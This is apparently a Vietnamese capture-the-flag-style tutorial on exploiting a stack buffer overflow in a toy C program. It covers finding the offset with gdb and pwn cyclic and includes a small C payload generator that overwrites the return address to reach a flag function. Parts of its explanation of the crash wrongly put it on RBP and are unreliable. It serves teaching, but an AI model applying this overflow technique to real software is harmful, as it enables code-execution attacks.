









# Exploit BOF (buffer overflow) in C script no pwntools python exploit
>bản `WriteUp` này mình sẽ giải thích chi tiết cách thức hoạt động và khai thác `BOF` bằng script C:

### I.BOF là gì?
- `BOF` thường được gọi là `buffer overflow` là 1 vulnerable cho phép ghi tràn qua vùng nhớ ngoài `stack`, khi tới mục đích cuối cùng thường là `RIP` thì sẽ ghi địa chỉ trỏ tới phần mà hacker muốn trỏ để thực hiện các hành vi độc hại khác nói dễ hiểu hơn là :
	- Khi chúng ta có 1 đoạn mã nguồn có lỗ hổng BOF ở đây :


```c
#include <stdio.h>
#include <string.h>

void flag(){
	printf("FLAGGGGGGGGGGG1234567890000000000000\n");
}

void vulnerable() {
    char buf[64];

    printf("Input: ");
    scanf("%s",&buf);   // cực kỳ nguy hiểm

    printf("You entered: %s\n", buf);
}

int main() {
    vulnerable();
    return 0;
}
```

- trong đó có `flag` là phần minh họa cho mục tiêu của ta thì bây giờ ta mở nó trong gdb thông qua lệnh `gdb ./bof`: 

 	

	- tiến hành nhập `r <<< $(pwn cyclic 300)`, tại đây lệnh `r` viết tắt là `run` dùng để chạy chương trình, còn syntax `<<<` nghĩa là khi nó mở `shell` thì sẽ lấy output của `pwn cyclic` đưa vào, lệnh `$(pwn cyclic 300)` là thực thi `pwn cyclic` để create ra 300 ký tự như hình :

	

	- khi đó chương trình sẽ bị crash `SIGSEGVS` do nhập quá vùng `buffer` cho phép, ta gọi đó là `tràn ra ngoài vùng stack khác` và `truy cập địa chỉ không hợp lệ`, địa chỉ đó là số hex của `ký tự đầu vào` mà ta nhập lúc đầu :

	

	- chúng ta thấy `RBP` bị ghi đè bởi các ký tự hexa của chuỗi mà pwn cyclic tạo ra 
### I.1.vậy vì sao khi RBP bị ghi đè lại crash?
- lý do rất đơn giản là nó bị `SIGSEGV` tại `ret` ở hàm `vulnerable` cụ thể:

	

- giải thích chi tiết hơn : `ret` là cái thoát ra khỏi hàm hiện tại và quay trở về cái nơi mà gọi hàm ví dụ dễ hiểu hơn là khi ta thấy nó call `0x555555555040 <printf@plt>` như trong ảnh nếu trong printf logic đã chạy xong thì sẽ có ret ở cuối đoạn mã trong đó, khi `ret` được thực thi ở trong hàm printf đó thì nó sẽ thoát ra và đi tới `lea rax,[rbp-0x40]`, lý do chính ở đây là `ret` cần phải có `RBP` để nó biết để có thể đi tiếp `instrution` tiếp theo, nhưng khi nhập quá buffer đã bị tràn ra stack thì RBP bị ghi đè các ký tự hexa vốn không trỏ tới vùng nhớ nào hợp lệ nên ret truy cập vào địa chỉ không hợp lệ vì thế crash

### II.cách soi offset sau khi đã ghi đè vào rbp
- ở đây chúng ta sẽ dùng `cyclic -l <hex của ký tự ghi đè>` trong gdb ví dụ như trong ảnh ta thấy `Rip` chưa bị ghi đè nên ta chưa thể soi offset ở rip trực tiếp được :

	

- bây giờ ta tiến hành soi offset tại `RBP` thay cho rip ta dùng lệnh `cyclic -l 0x6161617261616171`:

	

- ta thấy offset của nó là `64` 

## III. exploit
- dựa vào `stack layout` như sau:

  |                         |
  |-------------------------|
  |buffer(local var,...)    |
  |padding                  |
  |Saved Stack Pointer      |
  |Saved Instruction pointer|

- theo như stack layout `RBP + 8` là của retrun address, mục tiêu của chúng ta là tính `offset` để cho script trỏ tới đây và ghi đè địa chỉ mong muốn mà ta muốn thực thi, theo như vậy -> ta có offset của `RBP` là 64 + 8 = 72, vậy offset chính xác là 72. Ta có script C để khai thác :

```c
#include <unistd.h>
#include <stdint.h>
#include <string.h>

int main(void){
    int offset = 72; // <- 72 là offset chính xác trỏ tới return addr 
    uint64_t win = 0x0000555555555159; // <- địa chỉ của hàm flag 

    char payload[800];
    memset(payload, 'A', offset);
    memcpy(payload + offset, &win, 8); // <- số 8 dành cho binary x64 , nếu là x86 thì thay số 8 thành số 4

    int payload_len = offset + 8; //<- đây cũng vậy

    write(1, payload, payload_len);  // 1 = stdout
    return 0;
}
```

- để có được địa chỉ của hàm flag khá đơn giản là ta chỉ dùng `disas` để lấy:

	

- ở `instrution` địa chỉ chính xác của nó là `0x0000555555555159`, cái `<flag + 0>` và chúng ta thay thế vào biến win ở script và biên dịch nó:

	

- và chúng ta tiến hành chạy nó ở `GDB`:

	

- chúng ta đã khai thác và thực thi hàm flag thành công 
